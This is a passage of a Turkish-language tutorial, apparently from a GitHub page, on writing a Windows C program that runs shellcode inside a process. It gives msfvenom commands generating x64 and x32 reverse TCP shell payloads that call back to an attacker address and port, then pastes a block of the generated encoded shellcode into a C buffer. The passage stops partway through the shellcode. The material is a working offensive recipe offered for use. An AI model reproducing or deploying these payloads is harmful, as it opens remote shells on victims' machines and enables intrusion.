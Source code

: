
## Kaynak kodumuza geçelim

Kütüphanelerimizi dahil edelim :

```
#include <windows.h>
#include <psapi.h>
#include <stdio.h>
```

Main fonksiyonumuzu oluşturalım :

```
int main(int argc, char** argv) {

}
```

Şimdi geldik biraz zahmetli kısıma : 

```
unsigned char shellcode[] = "shellcodeburaya";
```

Bu kısım bizim **process** içerisinde çalıştıracağımız **hexcode** yani **shellcode**'umuzu içeriyor.

Bunu oluşturmak için uğraşmadan **metasploit** içerisinde bulunan **msfvenom** toolundan yararlanabiliriz.

**x64** için :

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.104 LPORT=4444 -f c -b \x00\x0a\x0d
```

**x32** için:

```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.104 LPORT=4444 -f c -b \x00\x0a\x0d
```

Burada bulunan **LHOST** ve**LPORT** kısmını kendinize göre düzenlediğinizi varsayıyorum

Komutu çalıştırdıktan sonra bize **C** ile uyumlu bir **shellcode** gelecek aşşağıda yüklediğim fotoraftaki gibi :

![](https://i.hizliresim.com/16QMMA.png)

Bu gelen **shellcode**'u yukarıdaki **buffer**'imize ekleyelim :

```
unsigned char shellcode[] = 
		 "\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		 "\xff\xff\x48\xbb\x9e\xfc\xbf\xb8\x05\xa1\x62\x7f\x48\x31\x58"
		 "\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x62\xb4\x3c\x5c\xf5\x49"
		 "\xa2\x7f\x9e\xfc\xfe\xe9\x44\xf1\x30\x2e\xc8\xb4\x8e\x6a\x60"
		 "\xe9\xe9\x2d\xfe\xb4\x34\xea\x1d\xe9\xe9\x2d\xbe\xb4\x34\xca"
		 "\x55\xe9\x6d\xc8\xd4\xb6\xf2\x89\xcc\xe9\x53\xbf\x32\xc0\xde"
		 "\xc4\x07\x8d\x42\x3e\x5f\x35\xb2\xf9\x04\x60\x80\x92\xcc\xbd"
		 "\xee\xf0\x8e\xf3\x42\xf4\xdc\xc0\xf7\xb9\xd5\x2a\xe2\xf7\x9e"
		 "\xfc\xbf\xf0\x80\x61\x16\x18\xd6\xfd\x6f\xe8\x8e\xe9\x7a\x3b"
		 "\x15\xbc\x9f\xf1\x04\x71\x81\x29\xd6\x03\x76\xf9\x8e\x95\xea"
		 "\x37\x9f\x2a\xf2\x89\xcc\xe9\x53\xbf\x32\xbd\x7e\x71\x08\xe0"
		 "\x63\xbe\xa6\x1c\xca\x49\x49\xa2\x2e\x5b\x96\xb9\x86\x69\x70"
		 "\x79\x3a\x3b\x15\xbc\x9b\xf1\x04\x71\x04\x3e\x15\xf0\xf7\xfc"
		 "\x8e\xe1\x7e\x36\x9f\x2c\xfe\x33\x01\x29\x2a\x7e\x4e\xbd\xe7"
		 "\xf9\x5d\xff\x3b\x25\xdf\xa4\xfe\xe1\x44\xfb\x2a\xfc\x72\xdc"
		 "\xfe\xea\xfa\x41\x3a\x3e\xc7\xa6\xf7\x33\x17\x48\x35\x80\x61"
		 "\x03\xe2\xf1\xbb\xd6\x11\x4d\xc1\xcf\x8d\xb8\x05\xe0\x34\x36"
		 "\x17\x1a\xf7\x39\xe9\x01\x63\x7f\x9e\xb5\x36\x5d\x4c\x1d\x60"
```